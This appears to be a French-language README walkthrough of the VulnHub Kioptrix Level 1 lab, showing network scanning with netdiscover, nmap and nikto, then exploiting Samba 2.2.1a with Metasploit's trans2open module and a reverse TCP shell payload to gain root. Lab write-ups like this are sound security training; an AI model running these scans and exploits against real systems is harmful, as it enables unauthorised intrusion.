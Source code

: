 ## Installation

Installer mon projet avec   

```
https://download.vulnhub.com/kioptrix/Kioptrix_Level_1.rar
```
  
# --------------------------------------------
## NETDISCOVER 

Je commence par scanner le réseaux avec la commande
netdiscover -r 192.168.91.0/24.
J'utilise l'attribut ```-r``` pour scanner un réseaux spécifique (plage d'adresses IP) .

![Netdiscover](/SCREEN/netdiscover.png)
![NETDISCOVERRESULTAT](/SCREEN/resultatnetdiscover.png)
Pour voir si la machine est en marche je vais utiliser fping . 
![fping](/SCREEN/fping.png)
La machine étant bien en marche je vais donc pouvoir lancer un nmap.
## NMAP

![NMAP](/SCREEN/nmap.png)

```bash
  nmap -sC -sV -p IP
```

Les options que j'ai choisit sont : 
-sC :Utilise l'ensemble de scripts par défaut. Cela équivaut à --script=default.
-sV : Détection de version
-p : Pour les ports
![resultat](/SCREEN/name.png)

On remarque donc que nous sommes bien sur la bonne machine cible .
![nmapresultat](/SCREEN/nmapresultat.png)

On remarque donc que nous avons du :
-SSH avec openSSH en version 2.9p2 
-Du Web avec les protocoles ( 80 et 443 )
-SMB (on ne connait pas encore la version)
-RPC 

## METASPLOIT 

Dans Kali, vous devrez démarrer le serveur postgresql avant d'utiliser la base de donnée
![nmapresultat](/SCREEN/systemctl.png)
Pour lancer metasploit depuis la console :
```
msfconsole 
```

![nmapresultat](/SCREEN/msfconsole.png)
Puis après je viens exécuter la commande : 
```
msfdb init
```

Puis je vais créer mon workspace :
![WORSPACE](/SCREEN/worksape.png)
Création de mon Worspace .

### Lister les adresses IP

Pour cette partie nous allons utiliser scanner :

![searchscanner](/SCREEN/searchscanner.png)
![searchscannerarp](/SCREEN/searcharp.png)

Je vais donc utiliser le n°0 
```
use 0
```
![searchscannerarp](/SCREEN/arpresult.png)
Puis en paramètre j'indique le réseau de ma machine en /24

L'IP de la machine est : 192.168.91.116

### Lister les ports ouverts
Pour lister les ports d'ouverts je vais venir utiliser db_nmap :

```
db_nmap -Pn -sTV -T4 --open --min-parallelism 64 --version-all 192.168.91.116 -p -
```

![dbnmap](/SCREEN/dbnmap.png)
SSH - Version : OpenSSH 2.9p2
Web - Version : Apache httpd 1.3.20

### BILAN

Pour utiliser nikto j'ai utiliser cette commande : 
```
nikto -h [IP] 
```
![nikto](/SCREEN/nikto.png)

Puis je me suis rendu sur exploit-db : 
![exploitdb](/SCREEN/exploitdb.png)
(J'ai indiqué dans mes critères de recherche la CVE-2002-0082)
Pour trouver la version smb de la machine cible j'utilise la commande : 
```
search scanner smb version
```
![search](/SCREEN/20.png)

Après avoir paramètrer :
```
set RHOSTS IP
set THREADS 1
run
```

![smbversion](/SCREEN/smbversion.png)

La version de notre Samba (SMB) est donc : Samba 2.2.1a

# Recherche des failles

Exemple avec OpenSSH 2.9

J'utilise : 
```
searchsploit
```

![SEARCHSPLOIT](/SCREEN/searchsploit.png)
[LIEN VERS LE .C](https://www.exploit-db.com/exploits/21671)

Son nom complet est : 
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow

# Exploitation

J'ai commencé par taper la commande suivante :
```
search exploit samba
```

![searchexploit](/SCREEN/searchexploit.png)

Je vais utiliser l'exploit :
```
linux/samba/trans2open
```
Car en me renseignant sur intenrent j'ai vu que l'exploit était compatible avec notre machine cible et qu'ils sont apparus à peu pres a la même date .
```
use n°16
```

Puis je vais venir set un payload avant de configurer mon exploit.

```
set payload /linux/x86/shell/reverse_tcp
```
Par la suite je configure mon exploit . je passe d'abord par un `show options`
Puis :
![configexploit](/SCREEN/configexploit.png)

Puis je run mon exploit

![runexploit](/SCREEN/runexploit.png)
On remarque donc que j'ai accès au droit de super-utilisateur .
# --------------------------------------------#
## Auteur
- [@theodufour](https://github.com/TheoDfr)
## Documentation
[Managing Workspaces](https://docs.rapid7.com/metasploit/managing-workspaces/)
[Netdiscover](https://www.oreilly.com/library/view/kali-linux-2018/9781789341768/487203a3-1d14-44f1-8256-b3d97a46f63a.xhtml#:~:text=To%20launch%20Netdiscover%2C%20type%20netdiscover,ve%20used%20netdiscover%20–r%2010.10.)
[Nmap](https://nmap.org/man/fr/man-version-detection.html)
[Metasploit](https://www.offensive-security.com/metasploit-unleashed/using-databases/)
[Nikto](https://memo-linux.com/nikto-outil-scanner-de-securite-serveur-web/)
[Samba Exploit](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)


